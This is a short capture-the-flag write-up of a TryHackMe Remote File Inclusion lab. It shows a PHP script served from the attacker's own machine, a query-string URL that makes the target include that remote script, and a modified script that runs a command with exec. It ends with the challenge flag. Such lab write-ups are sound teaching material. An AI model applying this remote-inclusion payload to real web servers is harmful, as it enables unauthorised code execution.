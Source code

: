 ```yaml
---
title: Remote Code Execution CTF
weight: 4
---
```

[Link to the exercise](https://tryhackme.com/room/fileinc)

## Goal
Contrary to [[cybersecurity/write-ups/thm/lfi-ctf-1]] and later ones, this CTF is about finding a flag hidden as a `hostname` with [[cybersecurity/knowledge/pentesting/RFI|Remote File Inclusion]]. 

## Steps
### Recce
I've opened the web app and tried to `include`  a bunch of files that might exist already in the filesystem ([[cybersecurity/knowledge/pentesting/LFI]]) - to no avail. Since the challenge is about [[cybersecurity/knowledge/pentesting/RFI]], I've written a simple PHP script that'd echo a string to see if RFI is possible _out-of-the-box_:

```php
<?php
echo "hostname"; 
?>
```

Since I didn't know where to host that file, I've started `SimpleHTTPServer` with 
```sh
python -m http.server ~/Desktop
```
(as I saved my script on the desktop). 

Then I tried to `include` it as a query param: 

```
http://10.10.55.248/playground.php?file=http://10.10.224.87:8000/hostname.php
```

(where `.55.248` is the attacked machine and `.224.87` is my AttackBox instance). 

![[assets/Screenshot 2023-01-04 at 21.18.30.png]]

Good. The string was included. 

### Exploitation
Since I've found the vulnerability, I've modified my script a bit to use PHPs' [exec fn](https://www.php.net/manual/en/function.exec.php): 

```php
<?php
echo exec("hostname"); 
?>
```

and refreshed the page. 

## Flag
`lfi-vm-thm-f8c5b1a78692`

